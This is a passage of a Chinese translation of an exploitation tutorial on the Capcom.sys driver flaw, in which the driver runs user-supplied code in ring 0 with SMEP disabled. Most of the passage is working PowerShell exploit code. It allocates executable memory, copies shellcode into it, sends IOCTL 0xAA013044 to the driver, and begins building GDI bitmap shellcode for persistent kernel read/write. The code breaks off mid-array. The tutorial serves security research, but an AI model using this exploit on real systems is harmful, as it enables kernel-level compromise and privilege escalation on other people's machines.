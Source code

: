 **0x02 驱动漏洞**

本文主要的目的不是分析驱动漏洞。我强烈建议你看下[@TheColonial](https://twitter.com/TheColonial)的演示，以更好的理解利用过程。





本质上，驱动提供了ring0代码执行作为一个服务。它唯一的功能是使用用户层的指针来禁用[SMEP](http://j00ru.vexillium.org/?p=783)，执行指针地址的代码并重新启用SMEP。函数的反汇编如下：

[![](https://p2.ssl.qhimg.com/t016626ecf3b8d34680.png)](https://p2.ssl.qhimg.com/t016626ecf3b8d34680.png)

Powershell PoC如下，描述了如何利用。



```
# Some tricks here
# =&gt; cmp [rax-8], rcx
echo "`n[&gt;] Allocating Capcom payload.."
[IntPtr]$Pointer = [CapCom]::VirtualAlloc([System.IntPtr]::Zero, (8 + $Shellcode.Length), 0x3000, 0x40)
$ExploitBuffer = [System.BitConverter]::GetBytes($Pointer.ToInt64()+8) + $Shellcode
[System.Runtime.InteropServices.Marshal]::Copy($ExploitBuffer, 0, $Pointer, (8 + $Shellcode.Length))
echo "[+] Payload size: $(8 + $Shellcode.Length)"
echo "[+] Payload address: $("`{`0:X`}`" -f $Pointer.ToInt64())"
$hDevice = [CapCom]::CreateFile("\.Htsysm72FB", [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) `{`
    echo "`n[!] Unable to get driver handle..`n"
    Return
`}` else `{`
    echo "`n[&gt;] Driver information.."
    echo "[+] lpFileName: \.Htsysm72FB"
    echo "[+] Handle: $hDevice"
`}`
# IOCTL = 0xAA013044
#---
$InBuff = [System.BitConverter]::GetBytes($Pointer.ToInt64()+8)
$OutBuff = 0x1234
echo "`n[&gt;] Sending buffer.."
echo "[+] Buffer length: $($InBuff.Length)"
echo "[+] IOCTL: 0xAA013044"
[CapCom]::DeviceIoControl($hDevice, 0xAA013044, $InBuff, $InBuff.Length, [ref]$OutBuff, 4, [ref]0, [System.IntPtr]::Zero) |Out-null
```

有了执行任意的shellcode的能力，我选择了一个GDI bitmap原语，能使我们获得在内核中永久性的读写的能力，而不用一遍又一遍的调用驱动。为了创建bitmap，我使用[Stage-gSharedInfoBitmap](https://github.com/FuzzySecurity/PSKernel-Primitives/blob/master/Stage-gSharedInfoBitmap.ps1)，并且使用下面的形式构建了shellcode。



```
# Leak BitMap pointers
echo "`n[&gt;] gSharedInfo bitmap leak.."
$Manager = Stage-gSharedInfoBitmap
$Worker = Stage-gSharedInfoBitmap
echo "[+] Manager bitmap Kernel address: 0x$("`{`0:X16`}`" -f $($Manager.BitmapKernelObj))"
echo "[+] Worker bitmap Kernel address: 0x$("`{`0:X16`}`" -f $($Worker.BitmapKernelObj))"
# Shellcode buffer
[Byte[]] $Shellcode = @(
    0x48, 0xB8) + [System.BitConverter]::GetBytes($Manager.BitmappvScan0) + @( # mov rax,$Manager.BitmappvScan0
    0x48, 0xB9) + [System.BitConverter]::GetBytes($Worker.BitmappvScan0)  + @( # mov rcx,$Manager.BitmappvScan0
    0x48, 0x89, 0x08,                                                          # mov qword ptr [rax],rcx
```